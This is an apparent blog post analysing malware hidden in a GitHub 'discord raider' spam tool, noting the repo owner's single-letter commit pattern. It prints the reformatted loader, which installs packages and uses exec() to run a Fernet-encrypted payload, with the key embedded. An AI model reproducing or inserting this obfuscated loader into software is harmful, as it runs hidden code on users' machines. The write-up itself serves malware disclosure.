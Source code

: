 {"title":"Malware hidden within an open source 'discord raider'", "source":"NONE", "date":"8-23-2024", "tags":["cybersecurity","malware"], "description":"Finding the malware hidden in an open source 'discord raider'"}


![This the github repo which contains the malware](/static/11/main.png)

This is the github repo which contains the malware

Hello, I have found something interesting, malware hidden within open source 'discord raider' tools. 

First a quick explanation, a 'discord raider' is a piece of software that spams a server with fake accounts which send messages repeatedly in an attempt to annoy people. These 'tools' are mostly used by 12 year skids, who feel like a master hacker by downloading garbage on to the family computer.

## Part one - github

The github repo for the malware was created about a day ago from writing this, intrestingly enough, the majority of the commits are replacing the single letter in a text file.
The more interesting thing is the account that owns the github repo, one `Michzael-Fuchslocher`, alongside the discord raid repo, they have several other repos, all discord related skid tools. In all of these repos the pattern of the commits being single letter edits continues. I looked at the code for some of these other repos, and they all seem to contain the same malware.

## Part two - the code itself

The main file contains a single line of semi-colon seperated python code, here is what it looks like when the formatting has been fixed.

    #!python
    import os
    os.system('pip install cryptography')
    os.system('pip install fernet')
    os.system('pip install requests')
    from fernet import Fernet
    import requests
    exec(Fernet(b'eORIbqIAo0lgLsUQKh65VDMfpLQ8xTJeOBYNqzILkqc=').decrypt(b'gAAAAABmxNtp4JGXQHPnCdjhaMgtj9NuIVwKOlXS6F_2WmIe3LPVT99J4L_LQTFe7l5E3fxvsHpbwHDOKxE-rr2HZHybMVtOhaDRzcTTmInOhYst6YzoeX8AwdM-3PYCdWDk4S1_EvIe1SjmZcc0N6r86fiT2_keIjsRXlugsw6ji1QUq8K4YV2KNTv0LdE9lQr_t_dKTpszBnN8mg0XElqMPd7UfhlXUQ=='))
